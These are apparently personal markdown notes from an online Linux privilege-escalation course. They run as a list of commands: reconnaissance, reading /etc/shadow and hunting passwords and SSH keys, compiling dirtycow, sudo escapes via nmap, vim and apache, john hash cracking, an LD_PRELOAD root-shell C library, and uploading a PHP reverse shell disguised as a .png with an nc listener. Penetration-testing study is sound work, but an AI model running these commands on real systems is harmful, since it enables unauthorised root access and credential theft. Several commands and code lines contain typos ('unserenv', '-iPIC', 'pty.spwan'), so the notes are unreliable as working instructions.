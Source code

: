 ```yaml
---
title: linux privilege escalation
---
```


linux-privilege-escalation by `Atil Samancioglu`

<https://cloudacademy.com/course/linux-privilege-escalation-2808/what-is-suid/>

<https://cloudacademy.com/course/fristileaks-2807/>

dirb

nikto

whoami

id

uname -a

cat /proc/version

cat /etc/issue

ps aux

cat /etc/passwd

cat /etc/shadow
    Permission denied

ifconfig

ip route

arp -an

locate password

cat /var/lib/pam/password

find / -iname password 2>/dev/null

find / -iname id_rsd 2>/dev/null

history

cd /tmp

wget

linPEAS

LinEnum.sh

linux-exploit-suggester.sh

dirtycow

dirtycow 2

gcc c0w.c -pthread -o dirtycow

./dirtycow

passwd

---

find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

---

sudo -l

> show what the user can execute

sudo /usr/bin/nmap

sudo /usr/bin/nmap --interactive
    !sh
    id
    whoami

sudo /usr/bin/vim -c '!/bin/sh'
    whoami

sudo /usr/sbin/apache -f /etc/passwd

sudo /usr/sbin/apache -f /etc/shadow

root:$6(SALT)....
    shadow.txt
    passrd.txt
    unshadow passwd.txt shadow.txt > passwords.txt
    john --wordlist=wordlist.txt passwords.txt
    john --show

---

LD_PRELOAD

vim my-library.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
    unserenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}


gcc -iPIC -shared -o /tmp/mylibrary.so library.c -nostartfiles

sudo LD_PRELOAD=/tmp/library.so nmap

nmap

---

pentestmonkey.net

download a php reverse shell

update the return IP in the reverse shell code

start listening port

`nc -nvlp 1234`

upload... might need to rename, `this-file.php.png`

find the url path to the file


---

swap shell

python -c 'import pty; pty.spwan("/bin/bash")'


find what files below to <MYUSER>

find / -user <MYUSER> 2>/dev/null
